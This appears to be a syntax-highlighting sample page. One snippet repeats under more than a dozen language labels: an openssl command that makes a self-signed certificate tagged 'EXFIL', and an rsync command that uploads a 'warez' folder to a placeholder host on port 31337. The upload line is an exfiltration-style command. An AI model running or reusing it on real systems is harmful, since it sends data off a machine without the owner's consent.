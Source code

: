 ```abap
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
sass
```sass
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
scad
```scad
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
scala
```scala
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
scheme
```scheme
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
scss
```scss
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
sh
```sh
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
smarty
```smarty
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
soy_template
```soy_template
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
sql
```sql
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
stylus
```stylus
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
tcl
```tcl
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
tex
```tex
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
text
```text
```